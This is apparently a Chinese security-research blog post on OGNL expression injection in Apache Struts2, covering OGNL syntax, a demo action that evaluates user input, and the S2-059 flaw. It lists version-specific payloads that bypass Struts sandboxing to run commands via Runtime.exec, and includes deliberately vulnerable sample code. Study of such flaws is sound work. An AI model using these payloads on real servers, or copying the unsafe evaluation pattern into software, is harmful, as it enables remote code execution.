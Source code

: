 ```yaml
---
layout:     post
title:      Struts2 ONGL 表达式
subtitle:   开始接触struts2框架、继续学习java的表达式
date:       2020-10-11
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/post-bg-java-struts-ognl.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```




![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)





### Ognl 表达式基本使用



使用方法：

```java
OgnlContext context = new OgnlContext()  //创建一个Ognl上下文环境
context.setRoot() //设置root元素 （根元素
context.put("id",1) //向环境变量中加入变量
Object ognl = Ognl.parseExpression("#id") //建立表达式 (取值
value = Ognl.getValue(ognl,context,context.getRoot()) //执行
```



demo 类

```java
package com.diego.demo;

import com.opensymphony.xwork2.Action;
import com.opensymphony.xwork2.ActionContext;
import ognl.Ognl;
import ognl.OgnlContext;

public class Ognl_test implements Action {

    public String payload;

    public class Users{
        Users(Integer age,String name){
            this.age = age;
            this.name = name;
        }
        public Integer age ;
        public String name ;
    }
    
    public String getPayload(){
        return payload;
    }

    @Override
    public String execute() throws Exception {
        // 创建 Action 容器
        ActionContext actionContext = ActionContext.getContext();
        if(payload != null){
			// 创建一个Ognl上下文环境
            OgnlContext context = new OgnlContext();
            Object value = null;
            try {
                // id = 1 加入环境变量
                context.put("id",1);
                Users users1 = new Users(1,"Diego1");
                Users users2 = new Users(2,"Diego2");
                // users1 users2 加入环境变量
                context.put("users1",users1);
                context.put("users2",users2);
                // 设置users1 为ROOT对象
                context.setRoot(users1);
				// 创建 Ognl 表达式
                Object ognl = Ognl.parseExpression(payload);
                // 解析表达式
                value = Ognl.getValue(ognl,context,context.getRoot());
            } catch (Exception e) {
                e.printStackTrace();
            }
            // 解析结果 放入Action 容器
            actionContext.put("res",value);
            System.out.println(value);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}

```



结合上面例子看出Ognl语法为 ：

**访问非根元素 :**

* #[变量]    ----->  `#users2` ,`#id`

* #\[对象][属性]   ----->  `#users2.age`

* #\[对象]\[方法名]()   ----->  `#users2.test()`

**访问根元素：** （以一个对象为根元素 访问成员或方法时可以 去掉`#对象名.`

* \[对象][属性]  ----->  `age`,`name`
* \[对象]\[方法名]()  ----->  `test()`

  **调用方法**：

* `xxx.getName()`

**支持类静态的方法调用和值访问**

 格式：`@[类全名（包括包路径）]@[方法名 |  值名]`

* 调用方法 `@java.lang.Runtime@getRuntime().exec('calc')`

* 调用成员 `@com.diego.demo.Ognl_test@aaa`  //

![0rYB28.png](https://s1.ax1x.com/2020/10/09/0rYB28.png)

**可以给上下文的变量赋值**

* 一般变量 `#id=111111,#id` 
* 成员变量 `#users2.age=99999,#users2.age`

![0rNxDe.png](https://s1.ax1x.com/2020/10/09/0rNxDe.png)

**静态方法调用**

* `@@min(1,2)`



**多语句执行**

* `().() 可以执行多语句`

### Ognl命令注入 历史漏洞

以下都是绕过`SecurityMemberAccess` 或者修改 `memberAccess`

**Struts 2.3.14.1版本前**

```
(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc'))
```

**2.3.14.1后 - 2.3.20版本前**

```
(#p=new java.lang.ProcessBuilder('calc')).(#p.start())
```



**2.3.20版本 - 2.3.28版本** (本地2.3.37 也可

```
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.3.30(2.5.2)之后**

```
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.5.16**

```
第一次

(#context=#attr['struts.valueStack'].context).
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))

第二次
(#context=#attr['struts.valueStack'].context).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('curl 127.0.0.1:9001'))
```





### Struts2 059

影响版本

Struts 2.0.0 - Struts 2.5.20

Apache Struts 2 会对某些标签属性（比如 id）的属性值进行二次表达式解析，并且在 Struts 标签属性内强制进行 OGNL 表达式解析时的情况因此在某些场景下将可能导致远程代码执行。



服务端代码 （及diego可控

```java
public class Ognl_test implements Action {
    
    public String diego ;
    public String getDiego(){
        return diego;
    }
    
    @Override
    public String execute() throws Exception {
        ActionContext actionContext = ActionContext.getContext();
        if(diego != null){
            actionContext.put("diego",diego);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}
```



Ognl.jsp

![0cBkAf.png](https://s1.ax1x.com/2020/10/11/0cBkAf.png)





![0cDZa6.png](https://s1.ax1x.com/2020/10/11/0cDZa6.png)



`%{(#aaaa=123456).(#aaaa)}` ,可以执行Ognl 表达式

![0cruT0.png](https://s1.ax1x.com/2020/10/11/0cruT0.png)



绕过方法与`Ognl命令注入` 相同

s2-059 payload 与具体版本有关